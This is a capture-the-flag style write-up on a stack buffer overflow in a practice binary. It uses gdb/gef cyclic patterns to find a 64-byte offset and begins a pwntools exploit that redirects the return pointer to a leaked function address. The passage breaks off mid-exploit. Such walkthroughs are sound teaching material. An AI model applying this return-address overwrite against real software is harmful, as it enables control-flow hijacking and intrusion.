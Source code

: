 ```
Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue  to  store
characters past the end of the buffer, it is extremely dangerous to use.  It has been used to break computer security.  Use fgets() instead.
```

The `magic_function_finder` application also tells us the address of `printf_finder`, our goal is to modify the 
return pointer, by overriding it due to the bufferoverflow, so that we jump to and execute this `printf_finder` function.
To find out how many bytes we have to send before overwriting the return pointer we use `gdb` with the extension `gef`.

```
gef➤  pattern create128
[+] Generating a pattern of 128 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
[+] Saved as '$_gef0'
```

This pattern can be used as input to the `magic_function_finder` and should result in a segmentation fault. 
Start the application in gef with `run` and use the pattern as input. Once the porgram crashes use `info registers`
to let `gdb` show you the state of all registers. Then copy the value of the `rbp` register. Gef can tell us exactly
how many bytes of input we need to overwrite this register due to the previously created pattern.

```
gef➤  pattern search 0x6161616161616169
[+] Searching '0x6161616161616169'
[+] Found at offset 64 (little-endian search) likely
[+] Found at offset 57 (big-endian search)
```

We have to create an input of 64 bytes before we start to overwrite the `return pointer`.

# Start to develop the exploit

At this point we can start to develop the exploit, we will be using `python` and the `pwntools` librarry for that.
The first few things we have to do is to receive and save the address of `printf_finder` as well as creating a 64
byte long padding to use before overwriting the `return pointer`. 
Due to the source code on the website we can already anticipate the output of `magic_function_finder` once we execute
`printf_finder`.
The exploit is already able to jump to `printf_finder` and to receive the address of `printf` inside libc. 

```
from pwn import *
p = process("./magic_function_finder")

# Step 1, receive the address of find_printf
p.recvuntil("implemented at: ")
addr_of_find_printf = p.recvuntil("\n")
addr_of_find_printf = str(addr_of_find_printf).split("\\")[0]
addr_of_find_printf = str(addr_of_find_printf).split("'")[1]
print(f"found find_printf at: {addr_of_find_printf}")
p.recvuntil("feedback:")

# Step 2, Buffer Overflow -> calling printf_finder
addr_of_find_printf = int(addr_of_find_printf, 16)
padding = b"A" * 64
```